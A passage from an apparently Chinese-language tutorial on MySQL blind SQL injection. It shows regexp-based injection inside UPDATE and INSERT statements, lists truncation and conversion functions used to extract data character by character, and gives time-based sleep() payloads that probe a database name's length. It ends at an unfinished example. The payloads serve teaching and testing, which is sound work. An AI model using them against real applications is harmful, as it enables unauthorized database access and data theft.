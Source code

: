 最终的第一个字符的二进制是：<br>
01110010

```
mysql&gt; select b'01110010';
+-------------+
| b'01110010' |
+-------------+
| r           |
+-------------+
1 row in set (0.00 sec)
```

**最终的字符是 r**

##### **6.一点点补充**

同样补充一下关于 inster 和 update 的盲注示例

```
update users set username = '0' | (substr(user(),1,1) regexp 0x5e5b6d2d7a5d) where id=14;

insert into users values (15,'K0rz3n','0'| (substr(user(),1,1) regexp 0x5e5b6d2d7a5d));
```



## 0X04 数据提取方法

由于是盲注，我们看不到我们的数据回显，我们只能根据返回去猜解，那么在对数据库一无所知的情况下我们只能一位一位地猜解，这里就会用到一些截断函数以及一些转换函数。

比较常见的是 mid() substr() locate() position() substring() left() regexp like rlike length() char_length() ord() ascii() char() hex() 以及他们的同义函数等，当然这里还可能会需要很多的转换，比如过滤了等于号可以通过正则或者 in 或者大于小于号等替换之类的，这部分内容我会放在别的文章梳理一下，这里就不赘述了。

### **1.举几个简单的例子：**

#### **示例1**

**测试情况：**

```
1'and if(length(database())=1,sleep(5),1) # 没有延迟

1'and if(length(database())=2,sleep(5),1) # 没有延迟

1'and if(length(database())=3,sleep(5),1) # 没有延迟

1'and if(length(database())=4,sleep(5),1) # 明显延迟
```

**说明：**数据库名字长度为 4

#### **示例2**

**测试情况：**
